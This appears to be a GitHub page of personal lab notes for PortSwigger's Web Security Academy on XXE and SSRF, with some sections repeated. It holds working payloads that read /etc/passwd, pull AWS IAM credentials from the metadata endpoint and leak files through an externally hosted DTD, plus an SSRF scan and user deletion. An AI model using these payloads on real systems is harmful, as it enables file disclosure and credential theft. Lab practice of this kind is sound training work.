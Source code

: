 ![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/bea19cde-df45-4d6b-b19b-06d086208fb1)**Exploiting XXE using external entities to retrieve files**

Checking stock shows a XML request
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/753acbc2-680e-44d7-95cb-e91df779991a)


Our payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>&xxe;</storeId></stockCheck>
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/c7b0dd2f-b900-4f9f-b3a9-a26c41022c5e)

**Basic SSRF against another back-end system**

Found url on stockAPI parameter 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3034330b-0663-4bee-8dd8-bd868eda7dac)


Look for admin interface on the IP address 
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fadmin
Replace final octet of ip address with parameter
Run Intruder sniper with number parameter 
1-255
200 request on 193
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/9e0cc306-b3b8-46be-b5f3-da0825f2c932)




Send to repeater notice delete url on response 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/9da64779-5aff-41cf-afba-ed937b930cc6)



Delete the user
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/a4e8583f-1217-4cca-ad68-9b637ef5b6d2)

Replace without payload 

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

This will return our access key when we get the 400 request

**Exploiting XXE to perform SSRF attacks(Cloud AWS attack)**

Replace without payload 

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

This will return our access key when we get the 400 request
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/e8092414-b261-45a9-9a63-07f52c3aeed4)

**Exploiting blind XXE to retrieve data via error messages**

Trigger and error to reveal /etc/passwd 


Our exploit server DTD file
```
<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> %eval; %exfil;
```

From <https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages> 


Intercept the stockcheck parameter
```
Add the following to the stockcheck parameter
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a51000b042dba3a8440537c01c0009e.exploit-server.net/exploit"> %xxe;]>
```

We now read file via error
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/2dd6f1f9-d662-4686-a08a-af7520f09b87)



**Exploiting XInclude to retrieve files**

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

From <https://portswigger.net/web-security/xxe/lab-xinclude-attack> 



Replaced and put into our parameter
```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

We get file read
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/c505cdf4-d7c1-4cbc-85b3-c816c25114ed)




```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

From <https://portswigger.net/web-security/xxe/lab-xinclude-attack> 



Replaced and put into our parameter
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1

We get file read
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/5ce020d9-221a-45d3-9233-f2ea3f621ae2)


**Exploiting XXE via image file upload**

SVG payload to get hostname 

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

Save as svg file and upload
Output is given in image 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/22cbd373-dc78-4712-9489-2265e0a977fb)


**Exploiting XXE to retrieve data by repurposing a local DTD**



1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite. 
2. Insert the following parameter entity definition in between the XML declaration and the stockCheck element: 
3. <!DOCTYPE message [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> <!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]> This will import the Yelp DTD, then redefine the ISOamso entity, triggering an error message containing the contents of the /etc/passwd file. 

From <https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd>




 Request shows xml


Exploit payload

```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

We got file disclosure
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/13e0acd5-f46c-4c49-8c68-c27f3e2712b3)









































